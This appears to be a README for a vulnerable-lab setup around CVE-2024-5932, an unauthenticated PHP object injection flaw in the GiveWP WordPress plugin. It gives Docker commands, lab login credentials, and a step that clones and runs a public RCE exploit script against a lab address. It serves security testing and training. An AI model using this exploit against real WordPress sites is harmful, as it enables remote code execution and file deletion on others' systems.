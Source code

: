 # Title
The GiveWP – Donation Plugin and Fundraising Platform plugin for WordPress is vulnerable to PHP Object Injection in all versions up to, and including, 3.14.1 via deserialization of untrusted input from the 'give_title' parameter. This makes it possible for unauthenticated attackers to inject a PHP Object. The additional presence of a POP chain allows attackers to execute code remotely, and to delete arbitrary files.

## Metrics
CVSSv2: N\A   
CVSSv3: 9.8 CRITICAL   

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```
Stop Environment and remove network:
```bash
docker compose down
```
## Detection and exploitation example
1. Run Environment
2. Login to Wordpress (vulnforge / vulnforge123)
3. Add new donation form
4. Add new post with GiveWP plugin and get the post link
5. Download and run exploit
```
git clone https://github.com/EQSTLab/CVE-2024-5932.git
cd CVE-2024-5932
pip install -r requirements.txt
python3 CVE-2024-5932-rce.py -u 'http://192.168.93.63:8080/?give_forms=41' -c 'touch /tmp/vunlforge'
```
## Exploits and PoCs
https://github.com/EQSTLab/CVE-2024-5932
## Nuclei Template

## CTF Rooms

## References
[NIST: CVE-2024-5932](https://nvd.nist.gov/vuln/detail/cve-2024-5932)
